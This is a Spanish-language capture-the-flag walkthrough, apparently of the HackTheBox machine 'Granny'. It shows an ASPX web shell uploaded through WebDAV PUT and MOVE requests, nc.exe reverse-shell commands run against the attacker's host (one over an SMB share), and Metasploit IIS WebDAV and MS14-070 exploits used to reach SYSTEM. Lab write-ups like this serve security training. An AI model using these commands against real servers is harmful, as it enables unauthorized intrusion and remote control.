# Granny

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 10.129.39.20
```



```bash
nmap -p80 --open -sCV -n 10.129.95.234 -oN portScan
```



- Tenemos otro WebDav como en el caso de la máquina Grandpa

```bash
whatweb http://10.129.95.234
```


- Microsoft-IIS/6.0



La web está en desarrollo

- Usamos *davtest* para comprobar qué extensiones de archivo nos deja subir a la webdav
```bash
davtest -url http://10.129.95.234
```



Vemos que se pueden subir y ejecutar archivos con la extensión *.txt*

- Intentaremos subir un archivo txt que sea una shell. Tenemos que tener en cuenta que al ser un Microsoft-IIS, el formato ejecutable en el servidor será *.aspx*
Buscaremos en nuestra máquina por alguna shell en formato aspx
```bash
locate .aspx
```

-> nos quedaremos con `/usr/share/davtest/backdoors/aspx_cmd.aspx`
- Lo renombraremos a .txt para que pase el filtro del davtest
-
```bash
mv /usr/share/davtest/backdoors/aspx_cmd.aspx .
```

-
```bash
cp aspx_cmd.aspx aspx_cmd.txt
```

- Subimos el archivo
```bash
curl -s -X PUT http://10.129.95.234/shell.txt -d @aspx_cmd.txt
```



Vemos que el archivo se sube correctamente en formato.txt

- Intentaremos cambiar el formato ahora con MOVE para renombrar su extensión *.aspx* y poder ejecutarlo
```bash
curl -s -X MOVE http://10.129.95.234/shell.txt -H "Destination: http://10.129.95.234/shell.aspx"
```

Conseguimos cambiar la extensión y vemos la shell:



- El siguiente paso será lanzarnos una shell.
Vemos que el webdav está en el directorio *C:\windows\system32\inetsrv*



Tendremos que encontrar el directorio en el que se suben los archivos mediante el webdav mediante curl (shell.txt)
- Buscamos en google por rutas default



Si hacemos un dir en el directorio *C:\inetpub\wwroot* vemos los archivos que hemos subido con curl por lo que en esta ruta tendremos que ir a buscar el *nc.exe* que subamos para lanzarnos la shell

- Nos copiaremos el recurso */usr/share/seclists/Web-Shells/FuzzDB/nc.exe*
```bash
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
mv nc.exe nc.txt
```

- Lo subimos
```bash
curl -s -X PUT http://10.129.95.234/nc.txt -d @nc.txt
curl -s -X MOVE http://10.129.95.234/nc.txt -H "Destination: http://10.129.95.234/nc.exe"
```



Ahora tenemos nc.exe para lanzarnos la shell

- Ejecutamos la shell poniéndonos a la escucha desde nuestra máquina
```powershell
C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.129.95.234 443
```

- Nos devuelve un error no sé muy bien por qué, intentaremos compartirnoslo por smb



- He puesto la ip de mi máquina mal xd, pero aun así no funciona

- Por SMB
```bash
impacket-smbserver smbFolder $(pwd) -smb2support
rlwrap nc -nlvp 443
```

```powershell
//10.10.16.73/smbFolder/nc.exe -e cmd.exe 10.10.16.73 443
```

nt authority\network service

## Por metasploit

- exploit/windows/iis/iis_webdav_scstoragepathfromurl
set lhost
set rhost
meterpreter -> getuid no acesible



- migramos el proceso para evitar restricciones
```bash
background
```

Usaremos un módulo de postexplotación *post/windows/manage/migrate*
Este módulo iniciará un proceso notepad.exe y migrará nuestra consola para que se ejecute dentro de ese proceso
set SESSION 1



Ahora sí podemos usar *getuid*



NT AUTHORITY\NETWORK SERVICE

- Usaremos un módulo de postexplotación que nos sugiera posibles métodos de escalada *post/multi/recon/local_exploit_suggester*
set session 1



- Probamos con los exploits sugeridos -> *exploit/windows/local/ms14_070_tcpip_ioctl*
set session 1
set lhost 10.10.16.250
set lport 443



NT AUTHORITY\SYSTEM

## Escalada
